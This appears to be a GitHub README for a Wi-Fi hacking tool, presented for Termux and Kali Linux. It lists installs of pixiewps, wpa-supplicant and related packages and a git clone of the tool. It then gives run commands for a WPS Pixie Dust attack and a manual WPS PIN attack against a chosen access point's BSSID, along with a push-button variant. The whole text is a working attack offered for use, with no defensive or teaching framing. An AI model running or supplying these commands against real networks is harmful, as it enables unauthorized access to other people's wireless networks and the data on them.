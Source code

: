 # Wi-Fi PassWord only WPA2 HACK

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw openssl

# download only root user

apt-get install build-essential

apt-get install libpcap-dev

apt-get install sqlite3

apt-get install libsqlite3-dev

apt-get install pixiewps

# installing Tool ComMand

pkg install git

pkg install python3


git clone https://github.com/HeartHaNterAlex/wifi


# only one command run


sudo python wifi/ps.py -i wlan1 -K
# kali command 
sudo python wifi/kali-ps.py -i wlan1 -K

# select Host number press inter attack 

# manual pin attack 🧷

sudo python3 ps.py -i wlan0 -b d9:90:4C:C9:D0:A7 -B -p 1234

sudo python3 ps.py -i wlan0 --pbc
